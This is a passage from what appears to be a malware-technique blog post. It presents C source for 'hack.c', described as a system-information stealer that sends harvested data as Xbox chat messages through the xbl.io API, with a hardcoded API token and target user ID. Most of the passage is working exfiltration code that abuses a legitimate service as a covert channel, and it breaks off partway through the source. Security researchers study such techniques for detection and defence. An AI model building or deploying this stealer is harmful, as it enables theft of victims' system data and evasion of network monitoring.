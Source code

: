 ```cpp
 
  WinHttpAddRequestHeaders(hRequest, wauthHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);
  WinHttpAddRequestHeaders(hRequest, wctypeHeader, -1, WINHTTP_ADDREQ_FLAG_ADD);

  char json_body[1024];
  snprintf(json_body, sizeof(json_body), 
    "{\"message\": \"%s\", \"xuid\": \"2535473210914202\"}",
    message);
  
  printf("%s\n", json_body);

  WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, (LPVOID)json_body, strlen(json_body), strlen(json_body), 0);
 
  WinHttpReceiveResponse(hRequest, NULL);

  DWORD bytesRead;
  char buffer[2048];
  while (WinHttpReadData(hRequest, buffer, sizeof(buffer) - 1, &bytesRead) && bytesRead > 0) {
    buffer[bytesRead] = '\0';
    printf("%s", buffer);
  }

  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 0;
}
```

As you can see, nothing new, same pretty simple logic as previous examples from my blog: the system info is sent via the Xbox API as a chat message to a specified Xbox User (XUID).    

Full source code looks like this (`hack.c`):    

```cpp
/*
 * hack.c
 * systeminfo stealer
 * via Xbox friend chat using xbl.io API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/10/23/malware-trick-53.html
*/

#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>
#include <stdio.h>

#define XBOX_TOKEN "598296f2-1cf0-42e9-bdd4-d0c63db1d532"

// send data to Xbox chat via xbl.io API
int sendToXbox(const char* message) {
  HINTERNET hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (!hSession) return 1;
 
  HINTERNET hConnect = WinHttpConnect(hSession, L"xbl.io", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (!hConnect) {
    WinHttpCloseHandle(hSession);
    return 1;
  }
 
```